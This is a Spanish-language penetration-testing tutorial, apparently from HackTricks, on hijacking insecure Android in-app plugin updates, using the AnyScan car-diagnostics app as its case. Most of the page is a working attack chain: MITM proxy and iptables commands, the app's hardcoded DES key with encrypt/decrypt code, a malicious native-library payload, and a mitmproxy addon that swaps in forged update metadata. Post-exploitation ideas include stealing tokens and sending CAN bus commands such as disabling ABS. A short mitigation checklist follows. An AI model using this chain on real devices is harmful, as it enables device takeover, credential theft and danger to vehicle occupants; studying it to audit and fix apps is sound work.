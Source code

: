 # Mecanismos de Actualización Insegura en la Aplicación – Ejecución Remota de Código a través de Plugins Maliciosos

{{#include ../../banners/hacktricks-training.md}}

Muchas aplicaciones de Android implementan sus **propios canales de actualización de “plugins” o “características dinámicas”** en lugar de utilizar Google Play Store. Cuando la implementación es insegura, un atacante capaz de interceptar el tráfico puede suministrar **código nativo arbitrario que se cargará dentro del proceso de la aplicación**, lo que lleva a una Ejecución Remota de Código (RCE) completa en el dispositivo – y en algunos casos en cualquier dispositivo externo controlado por la aplicación (coches, IoT, dispositivos médicos…).

Esta página resume una cadena de vulnerabilidad del mundo real encontrada en la aplicación de diagnóstico automotriz Xtool **AnyScan** (v4.40.11 → 4.40.40) y generaliza la técnica para que puedas auditar otras aplicaciones de Android y aprovechar la mala configuración durante un compromiso de red team.

---
## 1. Identificación de un TrustManager TLS Inseguro

1. Descompón el APK con jadx / apktool y localiza la pila de red (OkHttp, HttpUrlConnection, Retrofit…).
2. Busca un **`TrustManager`** o `HostnameVerifier` personalizado que confíe ciegamente en cada certificado:
```java
public static TrustManager[] buildTrustManagers() {
return new TrustManager[]{
new X509TrustManager() {
public void checkClientTrusted(X509Certificate[] chain, String authType) {}
public void checkServerTrusted(X509Certificate[] chain, String authType) {}
public X509Certificate[] getAcceptedIssuers() {return new X509Certificate[]{};}
}
};
}
```
3. Si está presente, la aplicación aceptará **cualquier certificado TLS** → puedes ejecutar un **proxy MITM** transparente con un certificado autofirmado:
```bash
mitmproxy -p 8080 -s addon.py  # see §4
iptables -t nat -A OUTPUT -p tcp --dport 443 -j REDIRECT --to-ports 8080  # on rooted device / emulator
```
## 2. Ingeniería Inversa de los Metadatos de Actualización

En el caso de AnyScan, cada lanzamiento de la aplicación activa un GET HTTPS a:
```
https://apigw.xtoolconnect.com/uhdsvc/UpgradeService.asmx/GetUpdateListEx
```
El cuerpo de la respuesta es un **documento XML** cuyas nodos `<FileData>` contienen **JSON encriptado con DES-ECB y codificado en Base64** que describe cada plugin disponible.

Pasos típicos de búsqueda:
1. Localizar la rutina criptográfica (por ejemplo, `RemoteServiceProxy`) y recuperar:
* algoritmo (DES / AES / RC4 …)
* modo de operación (ECB / CBC / GCM …)
* clave / IV codificados de forma fija (a menudo claves DES de 56 bits o claves AES de 128 bits en constantes)
2. Re-implementar la función en Python para desencriptar / encriptar los metadatos:
```python
from Crypto.Cipher import DES
from base64 import b64decode, b64encode

KEY = IV = b"\x2A\x10\x2A\x10\x2A\x10\x2A"  # 56-bit key observed in AnyScan

def decrypt_metadata(data_b64: str) -> bytes:
cipher = DES.new(KEY, DES.MODE_ECB)
return cipher.decrypt(b64decode(data_b64))

def encrypt_metadata(plaintext: bytes) -> str:
cipher = DES.new(KEY, DES.MODE_ECB)
return b64encode(cipher.encrypt(plaintext.ljust((len(plaintext)+7)//8*8, b"\x00"))).decode()
```
## 3. Crear un Plugin Malicioso

1. Elige cualquier plugin legítimo en formato ZIP y reemplaza la biblioteca nativa con tu payload:
```c
// libscan_x64.so – constructor runs as soon as the library is loaded
__attribute__((constructor))
void init(void){
__android_log_print(ANDROID_LOG_INFO, "PWNED", "Exploit loaded! uid=%d", getuid());
// spawn reverse shell, drop file, etc.
}
```

```bash
$ aarch64-linux-android-gcc -shared -fPIC payload.c -o libscan_x64.so
$ zip -r PWNED.zip libscan_x64.so assets/ meta.txt
```
2. Actualiza los metadatos JSON para que `"FileName" : "PWNED.zip"` y `"DownloadURL"` apunte a tu servidor HTTP.  
3. Encripta con DES + codifica en Base64 el JSON modificado y cópialo de nuevo dentro del XML interceptado.

## 4. Entrega la Carga Útil con mitmproxy

`addon.py` ejemplo que *silenciosamente* intercambia los metadatos originales:
```python
from mitmproxy import http
MOD_XML = open("fake_metadata.xml", "rb").read()

def request(flow: http.HTTPFlow):
if b"/UpgradeService.asmx/GetUpdateListEx" in flow.request.path:
flow.response = http.Response.make(
200,
MOD_XML,
{"Content-Type": "text/xml"}
)
```
Ejecuta un servidor web simple para alojar el ZIP malicioso:
```bash
python3 -m http.server 8000 --directory ./payloads
```
Cuando la víctima lanza la aplicación, esta:
* obtiene nuestro XML forjado a través del canal MITM;
* lo descifra y analiza con la clave DES codificada;
* descarga `PWNED.zip` → descomprime dentro del almacenamiento privado;
* `dlopen()` la *libscan_x64.so* incluida, ejecutando instantáneamente nuestro código **con los permisos de la aplicación** (cámara, GPS, Bluetooth, sistema de archivos, …).

Debido a que el plugin se almacena en caché en el disco, el backdoor **persiste a través de reinicios** y se ejecuta cada vez que el usuario selecciona la función relacionada.

## 5. Ideas de Post-Explotación

* Robar cookies de sesión, tokens de OAuth o JWTs almacenados por la aplicación.
* Lanzar un APK de segunda etapa e instalarlo silenciosamente a través de `pm install` (la aplicación ya tiene `REQUEST_INSTALL_PACKAGES`).
* Abusar de cualquier hardware conectado: en el escenario de AnyScan, puedes enviar **comandos OBD-II / CAN bus** arbitrarios (desbloquear puertas, desactivar ABS, etc.).

---
### Lista de Verificación de Detección y Mitigación (equipo azul)

* NUNCA envíes una versión de producción con un TrustManager/HostnameVerifier personalizado que desactive la validación de certificados.
* No descargues código ejecutable desde fuera de Google Play. Si *debes*, firma cada plugin con la misma clave **apkSigning v2** y verifica la firma antes de cargar.
* Reemplaza criptografía débil/codificada con **AES-GCM** y una clave rotativa del lado del servidor.
* Valida la integridad de los archivos descargados (firma o al menos SHA-256).

---
## Referencias

- [NowSecure – Remote Code Execution Discovered in Xtool AnyScan App](https://www.nowsecure.com/blog/2025/07/16/remote-code-execution-discovered-in-xtool-anyscan-app-risks-to-phones-and-vehicles/)
- [Android – Unsafe TrustManager patterns](https://developer.android.com/privacy-and-security/risks/unsafe-trustmanager)

{{#include ../../banners/hacktricks-training.md}}
